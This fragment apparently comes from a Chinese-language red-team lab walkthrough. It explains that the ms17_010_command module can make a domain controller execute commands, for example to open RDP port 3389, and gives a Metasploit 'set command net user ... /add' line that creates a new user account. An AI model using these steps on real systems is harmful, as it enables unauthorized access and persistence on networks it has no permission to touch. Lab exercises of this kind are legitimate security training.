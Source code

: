 ![img](assets/1656069800232-2c0a289f-b382-460a-bd27-149bb0954de2.png)

通过ms17_010_command可以让域控执行命令，那么可以利用它来开域控的3389端口

添加用户

setcommand net user HaoYe hongrisec@2022 /add
